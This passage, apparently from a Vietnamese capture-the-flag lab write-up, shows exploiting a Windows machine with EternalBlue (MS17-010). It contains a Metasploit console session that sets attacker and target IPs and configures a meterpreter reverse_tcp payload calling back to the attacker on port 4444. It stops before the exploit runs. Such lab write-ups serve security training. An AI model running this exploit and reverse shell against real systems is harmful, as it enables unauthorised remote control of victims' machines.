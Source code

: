 ```
```
Như có thể thấy nó không có gì cả

# Exploit
## Metasploit 
Với thông tin ta thu nhập được sau khi Recon và Machine info ta có thể khai thác cuộc tấn công [ExternalBlue](https://vi.wikipedia.org/wiki/EternalBlue):
- **MS17-010**
- Phần mềm độc hại là **WannaCry**

Tiến hành set local và target IP
```
msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.10.14.93
lhost => 10.10.14.93
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.10.40
rhosts => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.10.40      yes       The target host(s), see https://docs.metasploit.com/docs/using
                                             -metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only
                                             affects Windows Server 2008 R2, Windows 7, Windows Embedded St
                                             andard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affe
                                             cts Windows Server 2008 R2, Windows 7, Windows Embedded Standa
                                             rd 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Window
                                             s Server 2008 R2, Windows 7, Windows Embedded Standard 7 targe
                                             t machines.

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.93      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

View the full module info with the info, or info -d command.
```